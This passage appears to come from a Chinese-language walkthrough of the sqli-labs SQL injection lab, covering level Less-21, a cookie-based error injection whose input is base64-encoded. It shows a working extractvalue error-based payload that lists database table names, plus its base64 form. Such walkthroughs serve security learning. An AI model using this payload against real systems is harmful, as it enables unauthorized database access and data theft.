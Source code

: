 - 抓包开始注入

![image-20241008020552198](./assets/image-20241008020552198.png)

- 其它数据获取大差不差

****

### Less-21(cookie报错注入->报错+base64)

- 看到`==`就应该想到`base64`编码

```sql
admin'and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a)) and 1='#

YWRtaW4nYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDNhLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDNhKSkgYW5kIDE9JyM=
```
